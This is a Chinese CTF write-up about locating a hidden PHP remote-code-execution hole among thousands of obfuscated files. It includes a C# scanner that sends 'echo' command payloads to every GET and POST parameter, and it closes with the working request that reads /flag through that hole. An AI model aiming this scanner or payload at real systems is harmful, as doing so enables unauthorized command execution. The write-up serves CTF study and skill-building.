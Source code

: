 ![[Pasted image 20221126133523.png]]

---
首页长这样
![[Pasted image 20221126133538.png]]
离谱了
![[Pasted image 20221126134519.png]]
（草
这么多代码人工审计是不现实了（每日一题都不容易，这直接给我每日数千题QAQ），部署到了本地，尝试黑箱爆破
网上有大佬写好的`exp`，但是不会`python`QAQ，所以就用`C#`自己写了个（话说没有`GIL`，`C#`的多线程会不会比`python`快很多呢www）
```cs
using System.Text.RegularExpressions;

var dir = "/usr/share/nginx/html/src";
var files = Directory.GetFiles(dir);

var regexGet = new Regex(pattern: @"\$_GET\['(\w+)'\]");
var regexPost = new Regex(pattern: @"\$_POST\['(\w+)'\]");
var regexResponse = new Regex(pattern: @"maybeapayload");

Parallel.ForEach(files, file =>
{
    using StreamReader reader = File.OpenText(file);
    var content = reader.ReadToEnd();

    var matches = regexGet.Matches(content);
    var namesGet = new List<string>();
    foreach (Match match in matches)
    {
        var nameGet = match.Groups[1].Value;
        namesGet.Add(nameGet);
    }

    matches = regexPost.Matches(content);
    var namesPost = new List<string>();
    foreach (Match match in matches)
    {
        var namePost = match.Groups[1].Value;
        namesPost.Add(namePost);
    }
    UriBuilder uriBuilder = new()
    {
        Host = "localhost",
        Path = $"src/{Path.GetFileName(file)}",
        Query = string.Join('&', namesGet.ConvertAll(nameGet => $"{nameGet}=echo maybeapayload"))
    };
    // Console.WriteLine(uriBuilder.Uri);
    Dictionary<string, string> dict = new();
    namesPost.ForEach(namePost => dict.Add(namePost, "echo maybeapayload"));

    using HttpClient client = new HttpClient();
    using var response = client.PostAsync(uriBuilder.Uri, new FormUrlEncodedContent(dict)).Result;

    if (regexResponse.IsMatch(response.Content.ReadAsStringAsync().Result))
    {
        Console.WriteLine(file);
        Console.WriteLine(response.Content.ReadAsStringAsync().Result);
    }
});
```
跑完差不多花了4秒（打开优化的情况下），感觉效率蛮高
![[Pasted image 20221126204354.png]]
![[Pasted image 20221126204440.png]]
顺藤摸瓜找一找在`php`中出现的位置
![[Pasted image 20221126205805.png]]
这这这这藏得也太隐蔽了叭，出题人呕心沥血生成几千个文件来雷普萌新，他真的，我哭死==
```php
/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```
![[Pasted image 20221126210934.png]]

#Web #PHP #代码审计 #RCE #代码混淆